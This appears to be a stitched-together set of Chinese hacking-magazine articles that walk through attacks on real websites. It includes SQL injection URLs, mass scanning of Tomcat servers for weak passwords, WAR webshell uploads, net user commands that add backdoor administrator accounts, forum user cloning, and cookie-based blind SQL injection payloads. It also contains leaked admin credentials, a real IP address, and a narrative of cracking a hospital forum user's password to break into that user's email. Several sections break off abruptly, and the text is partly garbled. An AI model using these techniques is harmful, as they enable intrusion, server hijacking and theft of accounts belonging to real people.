http://www.gywb.cn//user/setnextoptions.asp?EquValue=1&ReqSql=select%201,IS_SRVROLEMEMBER('sysadmin'),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51%20from%20FS_MF_ADMIN%20where%20id=1
```

其中的 a16b4c49ff4fd45d 就是原先的 md5 了，然后再来注入这样的语句，返回了如图10所示的页面。这证明该网站是使用 sa 来连接数据库的。既然是用 SA 来连接的数据库，那我们基本上就能做任何的事情了。

大家在利用该漏洞的时候也会发现，基本上我们是无法登录进入后台的，后台地址也几乎没有默认设置的。我找了十几个有漏洞的网站，都找不到后台地址。所以大家在利用这个漏洞的时候，如果找不到后台，就尝试使用数据库权限方面的办法来拿 webshell 吧。

> （文章中涉及到的风讯最新API注入漏洞利用动画[无语音]、挖掘机6.5，LCX的hta文件已经收录在光盘中）

### 批量抓肉鸡之我用 Tomcat

txcbg


Tomcat是一个小型的轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP程序的首选。它是Apache软件基金会（Apache Software Foundation）的Jakarta项目中的一个核心项目，由Apache、Sun和其他一些公司及个人共同开发而成。由于有了Sun的参与和支持，最新的Servlet和JSP规范总是能在Tomcat中得到体现，因为Tomcat技术先进、性能稳定，而且免费，因而深受Java爱好者的喜爱并得到了部分软件开发商的认可，成为了目前比较流行的Web应用服务器。

记得在黑客X档案上也曾经有文章介绍通过弱口令登录Tomcat的管理页面后再上传包含jsp木马的.war文件来获得webshell的方法，但当时由于网上还没有出现批量扫描Tomcat弱口令的工具，因此利用起来比较麻烦，所以就没有怎么在意。最近，有人公布出了Tomcat的弱口令扫描器，我试用了一下，感觉很强大，工具利用的方法很简单，抓鸡效率非常高，一天抓几十只甚至上百只服务器肉鸡不是问题！

我们要用到的工具主要有 Apache Tomcat Scan 以及扫描器 s.exe，还要用到一个 war 文件，我使用的是从网上找到的一个 war 文件，里面有一个很简单的 jsp 木马（不需要密码的）。如果大家想把自己的 jsp 木马添加进 war 文件中，可以把那个 war 文件的扩展名改为 .rar，然后使用 winrar 把你的 jsp 木马添加到压缩文件中，最后再把扩展名改回 war 就行了（直接把 jsp 木马打包成 .rar 文件，然后再把扩展名改成 .war 是无效的，jsp 木马不能运行）。

使用 Apache Tomcat Scan 扫描存在弱口令的服务器有两种方法，一种是直接通过软件提供的 google、baidu 搜索引擎来抓 URL，然后把 URL 转换成对应的 IP 地址后再扫描服务器是否存在 Tomcat 弱口令，这种方法操作简单，不用自己输入要扫描的 IP 地址，但缺点是针对性不强，多次搜索扫描后的结果可能有重复的；第二种方法是先使用 s 扫描器扫描指定 IP 段中开放 8080（当然也可以扫描 80 端口，但 Tomcat 的管理端口大部分是在 8080，少部分在 80）端口的主机，再把扫描到的开放 8080 端口的 IP 地址列表导入到 Apache Tomcat Scan 中来扫描弱口令，这种方法可以扫描指定 IP 段中存在 Tomcat 弱口令的主机，针对性比较强。如果你乐意，完全可以把全球的 IP 地址段都扫描一遍——，相对第一种方法的缺点是需要自己先单独扫描开放 8080(80) 端口主机的 IP 地址列表。

先来看第一种方法，Apache Tomcat Scan 运行后的界面如图1所示，我们点“Options”来到软件设置的地方，如图2。


在这里可以通过“Import”按钮分别导入扫描 Tomcat 弱口令时的用户名列表、密码列表和 IP 列表。如果要导入用户名和密码，需要把用户名(密码)每个一行写入一个文本文件中，我就直接使用它默认的用户名和密码列表了。“Timeout(ms)”是超时，大家可以根据自己的网速来进行设置，网速快的可以设置小一点，网速慢的就设置的大一点，基本上使用默认的就行了。如果我们已经有了要扫描的 IP 列表文件，可以通过“Import Ip Lists”选项下方的“Import”按钮来导入扫描。设置完成后点击“Search”，就会来到搜索的地方，如图3。


软件提供了 google 和 baidu 两个搜索引擎，后面的“1~255”选项会把 IP 进行扩展，比如我们搜索到的网站所在服务器的 IP 地址是 xxx.xxx.xxx.35，选中“1~255”后软件就会在扫描时扫描 xxx.xxx.xxx.1~xxx.xxx.xxx.255 的整个 IP 段，而如果不选择的话在扫描时就只会扫描 xxx.xxx.xxx.35 这一个 IP 地址。可以看到选中该选项后的扫描 IP 是不选时的 255 倍，为了扫描到更多的肉鸡，强烈建议选上。随便找一个关键字，比如“网吧”，搜索引擎就选 baidu 吧（建议搜国内肉鸡时使用 baidu，搜索国外肉鸡时就使用 google，貌似地球人都知道 o(∩_∩)o...），点击后边的“Search”按钮，一会儿就显示出了结果，如图4。


由于选中了“1~255”，所以结果中有很多类似 121.13.224.1-121.13.224.255 的 IP 段，我们切换到“View”选项，刚才搜索到的 IP 段已经自动出现在“Ips Address List”中了，很方便吧，如图5。


点击“Start”按钮后就开始扫描存在弱口令的主机了，扫描过程中一个个的密码飞速闪过，看着真舒服啊。等到没有密码再滚动时，扫描就结束了，在软件左上角的“Results”中显示的是扫描到的结果，经过10多分钟的扫描，检测了44625个IP地址，找到了9个存在Tomcat弱口令的IP，如图6。


不过，大家别高兴得太早，因为有的主机无法上传我们的 war 文件，那样的话我们就只能放弃换下一个了，还有的主机尽管能够上传 war 文件，但 jsp 木马却不能运行，还有的即使 jsp 木马能够运行，但服务器不是 Windows，而是 Linux、SunOS 等，作为小菜的我也只好放弃了，谁让自己对它们不熟悉的呢。

先来看第一个结果，打开 http://221.204.253.58:8080/manager/html，在如图7所示的登录窗口中输入用户名 admin，密码就输入扫描到的弱口令 1234，成功登录进了 Tomcat 的管理页面，但一看操作系统，这运气不怎么好，居然是 Linux 系统，如图8。


没关系，再换下一个。我连续试了挨着的几个 IP 地址，发现都是 Linux 系统，不能灰心，继续试，终于找到了一个能上传 war 文件的，把页面往下拉，看到了“WAR file to deploy”这一栏，这就是上传 war 文件的地方，如图9。


通过“浏览”按钮选择我们的 war 文件 test3693.war，然后“Deploy”，文件上传成功后就会多出一个名为 test3693 的目录，如图10。


直接点击这个目录，就得到了一个简单的 jsp webshell，如图11。通过它的上传功能我上传了一个自己发明的 jsp File Browser，上传成功后打开的界面如图12所示。


这个 jsp shell 的功能还是很强大的，可以查看文件、并能对文件进行删除、下载、重命名等操作。点击下面的“Launch command”按钮就来到了执行命令的地方，如图13。


试着连接了一下 3389，可以连接，直接执行命令 `net user 123 testtest /add`，`net localgroup administrators 123 /add`，然后成功登录进了 3389，如图14。这台服务器肉鸡就是这样简单地到了手了。


```
net user 123 testtest /add
net localgroup administrators 123 /add
```


下边找个论坛来测试一下，我就以本机上架设的PHPWind v6.3 RC来进行测试了，比如现在论坛上有个管理员用户为root，我要利用这个程序去克隆一个root，回到CMD里，输入命令“phpwind http://localhost/PHP/.root”（提交时，程序会自动在root后台添加一个Mysql舍弃的ASCII码，ASCII的区段，在上期杂志中已经说的很清楚了），如图3。


已经注册成功了，密码是123456，此时我们使用root这个用户是登录不了论坛的，所以我们需要使用UID来登录，输入UID为3，密码为123456，登录成功。看看现在是不是有两个ROOT用户了呀，如图4。


再来看看我们现在有没有前台的权限，如图5，图6。已经有权限了。

#### 二、利用minibrowser提交数据来克隆用户

我们再来介绍一下如何利用minibrowser提交构造的数据来克隆用户，我们要用这个方法来克隆论坛的另外一个管理员blackmask。打开minibrowser.exe，在URL里输入注册页面http://localhost/php/register.php，然后点击“get”进行提交。用户名填入blackmask，密码填入111111，Email就填入xxxdxd@126.com，如图7，最后点击“提交”，就会弹出来一个对话框，我们在用户名blackmask的后面添加上一个“%c1”，如图8。

最后点击“Post”按钮，注册成功了，UID是5，来看看是不是有权限了，图9。


再来看看是不是有两个blackmask用户了，如图10。


> 文章难易度：★★★
> 文章阅读点：如何寻找到灌水点，利用时间漏洞找到帐户和密码后，登录后台，再利用后台功能得到 webshell 的巧妙注入渗透法

### 入侵网游代练网

司徒浩男 / 张超

前几日，与道中黑友们检测了一网游代练网站，搞了好久都没有拿下，不放弃的我经过几天的努力，最后终于将它 PK 了。在此，就将整个入侵过程写出来，与大家交流一下。打开首页后使用啊 D 注入工具在对方的站点内狂扫，提示的几个注入点检测字段都为空（网站上有个动网 7.1 版的论坛，论坛正在维护中，所有的功能不能使用）。

#### 第一部：巧妙构造注入点，得到管理后台权限

我们打开主页 www.100pk.com，在主页中注册一个帐号，登录进去后系统会自动给新注册人员发送一个短消息，打开短消息页面（图中是我自己给自己发了个消息），如图 1。

| 已读 | 发信人 | 短信主题 | 发送日期 | 短信操作 |
| --- | --- | --- | --- | --- |
| ☐ | 68236058 | a333 | 2006-10-17 9:23:40 | × |

共 1 条短信（为了节省空间，请及时删除无用信息）

图 1

点击短信主题，然后在地址栏的网址后添加个“'”符号看是否被过滤了，结果如图 2 所示。多么熟悉的注入漏洞呀，看来这个可以做为一个注入点了。


马上复制地址，把它粘贴到啊 D 注入工具中进行检测，一会儿工夫就得到了管理员后台的帐号为 admin，密码为 tm5201，如图 3。

接下来扫描网站后台，很快就得到了后台的地址 http://www.100pk.com./admin/login.asp，使用得到的帐号和密码成功的登录了进去。在后台，发现服务器设置的有点不尽人意，所有的上传都被禁用了，如图 4、图 5。


#### 第二部分：借数据库备份显威

进入后台，我仔细的找了下能够利用的地方，除了有一个数据库备份外没别的有用的了（思路一：先把 conn.asp 文件备份成 mdb，然后下载下来，通过该文件得到数据库的真实地址）。点击数据库备份，然后在“当前数据库路径”中填写“../bbs/conn.asp”，在“备份数据库目录”中填写“../bbs”，在“备份数据库名称”就可以任意填写了，我填的是 115.mdb，如图 6。


点击“开始备份”按钮，提示数据库备份完成，我们打开 http://100pk.com/bbs/115.mdb，将这个文件下载下来，然后使用记事本打开，得到了如图 7 所示的资料。

## 一个人解密箱

2008年第1期

### 企业网站后台管理系统


试了一下常用的密码都不对，我又试了下那个经典的“or”==，没想到居然成功了。登录进入后台后，我就开始在后台找上传的地方了（图5）。


看了看页面提交的代码，没有发现什么，试了一下没有上传成功（图6）。


```
<head>
<title>后台管理系统</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<link rel="Stylesheet" href="/style.css" type="text/css">
</head>
<body bgcolor="#FFFFFF" text="#000000" leftmargin="0" topmargin="0" marginwidth="0" marginheight="0">
</body>
</html>
```

看到这个提示，感觉应该是本地的script过滤方式，可是查看了一下页面源代码却发现没有，好奇怪呀！代码如下：

```
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>...</title>
</head>
<body>
...
</body>
</html>
```

正在考虑是怎么回事的时候，我想起来自己的浏览器使用的是firefox，有一个功能是页面源码，打开看了一下，如图7。


把上边这段代码的禁用去掉以后，在本地第一个提交，传上去了，如图9，图10。


提交成功后会自动返回到发布的页面，现在去首页看看我们刚才发布的信息，我们的木鸟就在那里面（图11）。打开这个页面，可以看到我们的木鸟就乖乖的躺在那里，使用浏览器访问同地址，木鸟就出来了。

```
<SCRIPT LANGUAGE="JavaScript">
<!--
if (flexname != "") {
    alert("请先选择内容文件!");
    return(false);
}
return true;
//-->
</SCRIPT>
```

### 一个人的破解指南

现在的SQL注入已经不像以前那样好使了，以前在GOOGLE里一搜就是一大片可以注入的网站，现在却明显的减少了。唉！小菜可真不好当啊。目前的大部分网站都采用了各种各样的防注入程序，各位小菜就和我一起把目光锁定在这些防注入程序上，看我们如何突破它，继续我们的SQL注入之路。

#### 一、原理篇

- 1. 判断是否存在 cookie 注入

我们随便点开一个页面，就选择“企业新闻”这个栏目，


打开 `http://demo.vooson.com/3/shownews.asp?id=98`，判断是 `shownews.asp`，返回正常（图2）。我们再把那个“1=1”换为“1=3”，重新提交（图3），然后我们访问 `http://demo.vooson.com/3/shownews.asp`，返回了“数据库出错”的提示（图4）。由此我们就可以判断出此程序基本上存在 COOKIE 注入漏洞了。

先看一下判断语句“javascript:alert(document.cookie="id="+escape("值 and 1=1"));”，把里面的变量换成该地址的变量，这里为 id，而语句里的值也就是 id 后面的数字，这里为 98。修改完后也就是“javascript:alert(document.cookie="id="+escape("98 and 1=1"));”。我们把它输入到浏览器地址栏中，然后提交，刷新页面。


我们现在知道了 shownews.asp 文件有可能存在 COOKIE 注入，所以我们就翻开源代码去看看。关键代码如下：

##### 2、分析程序

```asp
<%owen=request("id")%><!--赋值操作-->
<%
id=cstr(request("id"))
Set rsnews=Server.CreateObject("ADODB.RecordSet")
sql="update news set hits=hits+1 where id="&id
conn.execute sql
sql="select * from news where id="&owen
'查询与 owen 值来过滤
rsnews.Open sql,conn,1,1
title=rsnews("title")
if rsnews.eof and rsnews.bof then
    response.Write("数据库出错")
else
%>
```

通过上面的代码，大家应该看清楚它是如何存在 SQL 注入了吧。那为什么还存在防注呢？因为在源文件头有这么一句：

```asp
<!--#Include File="Check_Sql.asp"-->
```

根据名字大家也能猜出个人八九不离十吧，我们继续查看 Check_Sql.asp 文件，里面果然是我们要找的防注入代码。

```asp
<%
Dim Query_BadWord, Form_BadWord, Err_Message, i, Web_name
Query_BadWord = "select|update|delete|insert|..."
if request.QueryString<>"" then
    Chk_badword=split(Query_Badword,"|")
    FOR EACH Query_Name IN Request.QueryString
        for i=0 to ubound(Chk_badword)
            if instr(LCase(request.QueryString(Query_Name)), Chk_badword(i))<>0 then
                Select Case Err_Message
                Case ...
                    response.Write("数据库出现错误")
                End Select
            end if
        next
    Next
end if
%>
```

通过查看这段代码，知道了程序对 GET 和 POST 提交的值做了过滤，并且过滤的还是比较完整的，但是在程序却没有限制 COOKIE 的提交，这也就是我们今天所要说的 COOKIE 注入了。

#### 一、利用篇

##### 1、手工猜解

手工猜解是个体力活，不过大家还是要学会的。我们开始猜测管理员账号的长度，首先是否等于 5，构造如下语句：

```javascript
alert(document.cookie="id="+escape("98 and (select top 1 len(username) from admin)=5"));
```

提交后如图5所示，然后刷新 `http://demo.vooson.com/3/shownews.asp`，大家根据结果判断。来进行判断，这跟平常的手工注入一样。这回正确项页码就代表语句正确，要是错误的话就代表语句错误，继续更换语句进行猜解。

##### 2、工具猜解

小菜们如果不喜欢手工猜牌的话，那就和我一起使用“爽的刹猜”大叔的注入字符串生成器。打开工具后，选择右侧的 COOKIE 注入项，然后在“注入键名”处填写“id”，在“注入 URL 地址”处填写 `http://demo.vooson.com/3/shownews.asp`，中的“来源页”也是一样的，然后点击“生成 ASP”就行了，如图 6。

在同目录下就会生成 imCookie.asp，我们在本地使用 Freda ASP Web 服务器运行该文件，就可以利用工具进行猜解了。在管理地址后面的变量为 jmdcw，值为原来的值，如图 7。可能我猜解了半天也没有把 admin 这个表给猜解出来，有可能是因为演示版的问题吧，也有可能是管理员把数据库里的 admin 表给删除了。


```javascript
alert(document.cookie="id="+escape("98 and (select top 1 len(password) from admin)>16"));

alert(document.cookie="id="+escape("98 and (select top 1 asc(mid(password,1,1)) from admin)=97"));
```

来猜解密码的长度，构造语句 `javascript:alert(document.cookie="id="+escape("98 and (select top 1 len(password) from admin)>16"));` 提交，猜解内容是否大于 16。返回错误的话就改成 15，如果 15 正确的话就代表密码是 16 位。再继续猜解密码的内容，构造语句 `javascript:alert(document.cookie="id="+escape("98 and (select top 1 asc(mid(password,1,1)) from admin)=97"));` 提交，查看第一位是否为 a，a 的 ASCII 码就是 97，然后替换着进行猜解。猜解管理员帐号的原理也是一样的，把 password 换成 username 就可以了。

#### 三、总结

虽然程序还有很多地方没有进行分析，但是主要问题已经给大家说明了。这套程序的安全性也可以说不怎么样，有很多地方存在着严重的漏洞，我在评论那几篇试了一下就发现没有过滤一些有危害性的字符，很有可能存在跨站漏洞。不过这些有危险性的字符，很有可能存在跨站漏洞。还有很多感兴趣的地方，大家有兴趣的话就自己去分析吧。

（文章中涉及到的注入中转生成器、Freda ASP Web 以及 Vooson 网讯企业网站管理系统 2008 的源代码已经收录在了光盘中。）

记得上次使用 webshell 搞到了一个大型医院网站的动网论坛的管理员帐号，正好最近我在研究社会工程学，那就从它来入手，看看今天能有什么收获。

- 1、下载了医院论坛的数据库，打开后随便选择一个用户（图 1），没想到我的运气还真不错，把该 MD5 密码到 cmd5.com 上进行在线查询，成功的查询出了密码是 231521（图 2）。

- 2、打开 mail.sina.com，输入他的邮箱和密码 231521，点击登录，前面停了一会儿，登录成功了，里面有不少的邮件嘛。


